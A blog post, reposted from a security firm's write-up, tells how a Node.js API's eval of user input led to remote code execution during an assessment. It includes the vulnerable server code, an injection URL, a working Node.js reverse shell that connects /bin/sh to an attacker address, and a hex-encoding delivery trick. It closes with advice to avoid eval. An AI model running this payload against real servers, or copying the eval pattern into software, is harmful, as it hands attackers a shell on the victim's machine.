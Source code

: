 ```yaml
---
title: Reverse shell on a Node.js application
date: '2016-05-30'
author: Duyet
tags:
  - Node.js
  - Security
modified_time: '2016-05-30T23:12:07.074+07:00'
slug: /2016/05/reverse-shell-on-nodejs-application.html
category: Javascript
description: How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.
---
```


How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.

## Introduction

We were tasked by a small web developer team to perform a security assessment of their mobile app backend which is a REST API.

The architecture is rather simple there is only three Linux servers.

- Node.js
- MongoDB
- Redis

First we performed a few arbitrary tests without access to the source code and we discovered that a few unexpected input at some endpoints would crash the backend application.
We also noticed that the redis server was accessible from the WAN without authentication.

Our next step was to review the Node.js API code and understand the crashes.

## Simplified vulnerable application

We created this small Node.js application with the vulnerable function if you want to try to exploit it yourself.
This Node.js web server will wait for a query such as `http://target.tld//?name=do*` and search for animal names matching that query.

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');

const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);

function requestHandler(req, res) {
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, {"Content-Type": "application/json"});

    if (queryData.name) {
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    } else {
        res.end();
    }
}

function getAnimals(query) {
    let result = [];

    for (let animal of animals) {
        if (query.test(animal.name))
            result.push(animal);
    }

    return result;
}

function stringToRegexp(input) {
    let output = input.replace(/[\[\]\\\^\$\.\|\?\+\(\)]/, "\\$&");
    let prefix, suffix;

    if (output[0] == '*') {
        prefix = '/';
        output = output.replace(/^\*+/g, '');
    } else {
        prefix = '/^';
    }

    if (output[output.length - 1] == '*') {
        suffix = '/i';
        output = output.replace(/\*+$/g, '');
    } else {
        suffix = '$/i';
    }
    output = output.replace(/[\*]/, '.*');

    return eval(prefix + output + suffix);
}

const server = http.createServer(requestHandler);
server.listen(3000);
```

```
[
    {"name": "Dinosaur"},
    {"name": "Dog"},
    {"name": "Dogfish"},
    {"name": "Dolphin"},
    {"name": "Donkey"},
    {"name": "Dotterel"},
    {"name": "Dove"},
    {"name": "Dragonfly"},
    {"name": "Duck"}
]
```

## The vulnerability

After a few minutes of analyzing the buggy endpoints in the code we noticed a bad practice issue that could lead to remote code execution.
The `stringToRegexp` function is evaluating user input to create a `RegExp` object and use it to find elements in an array.

```
return eval(prefix + output + suffix); // we control output value
```

We can insert our own Javascript code in the output variable and execute it.
The stringToRegexp function will escape some characters and the output value will be evaluated.

```
["./;require('util').log('Owned');//*"]
```

Visiting the address below will print a message on the server terminal.
`http://target.tld/?name=["./;require('util').log('Owned');//*"]`

From there it would be nice to execute code to have an interactive shell such as `/bin/sh`.

## The Node.js reverse shell

The Javascript code below is a Node.js reverse shell.
The payload will spawn a /bin/sh shell, create a TCP connection to the attacker and attach the shell standard streams to it.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

To execute the payload gracefully we used a little trick, we encoded our reverse shell payload to hexadecimal and used the Node.js Buffer object to decode it.
`http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]`

## Conclusion

It's highly recommended to avoid using the `eval` function in a Javascript project.
The fix was rather simple, they started using using the `RegExp` object directly.
See origin post here: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)
